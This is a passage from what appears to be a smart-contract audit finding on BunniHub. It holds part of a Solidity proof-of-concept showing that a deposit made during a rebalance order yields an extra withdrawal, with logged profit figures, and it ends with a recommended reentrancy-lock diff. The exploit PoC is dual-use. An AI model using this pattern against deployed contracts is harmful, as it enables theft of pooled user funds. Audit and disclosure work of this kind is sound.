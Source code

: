 ```solidity
        recipient: address(this),
        refundRecipient: address(this),
        vaultFee0: 0,
        vaultFee1: 0,
        referrer: 0
    });
    _mint(key.currency0, address(this), depositParams.amount0Desired);
    _mint(key.currency1, address(this), depositParams.amount1Desired);

    // fulfill order
    _mint(key.currency0, address(this), order.consideration.amount);
    bytes memory data = abi.encode(depositParams);
    floodPlain.fulfillOrder(signedOrder, address(this), data);

    // quote withdrawal
    IBunniHub.WithdrawParams memory withdrawParams = IBunniHub.WithdrawParams({
        poolKey: key,
        recipient: address(this),
        shares: bunniToken.balanceOf(address(this)),
        amount0Min: 0,
        amount1Min: 0,
        deadline: block.timestamp,
        useQueuedWithdrawal: false
    });
    (uint256 withdraw0, uint256 withdraw1) = quoter.quoteWithdraw(withdrawParams);
    int256 diff0 = int256(withdraw0) - int256(deposit0);
    int256 diff1 = int256(withdraw1) - int256(deposit1);
    console2.log("diff0:", diff0);
    console2.log("diff1:", diff1);
}
```

```js
diff0: 16514757552665550;
diff1: -1;
```

## Recommendations

Establish a mechanism to lock the access to `BunniHub` contract functions between the execution of `rebalanceOrderPreHook` and `rebalanceOrderPostHook` .

An example of how to implement this mechanism is shown below:

```diff
File: BunniHub.sol

+   function lockForRebalance(PoolKey calldata key) external {
+       if (address(_getBunniTokenOfPool(key.toId())) == address(0)) revert BunniHub__PoolNotExists();
+       if (msg.sender != address(key.hooks)) revert BunniHub__Unauthorized();
+       _nonReentrantBefore();
+   }
+
+   function unlockForRebalance(PoolKey calldata key) external {
+       if (address(_getBunniTokenOfPool(key.toId())) == address(0)) revert BunniHub__PoolNotExists();
+       if (msg.sender != address(key.hooks)) revert BunniHub__Unauthorized();
+       _nonReentrantAfter();
+   }
```
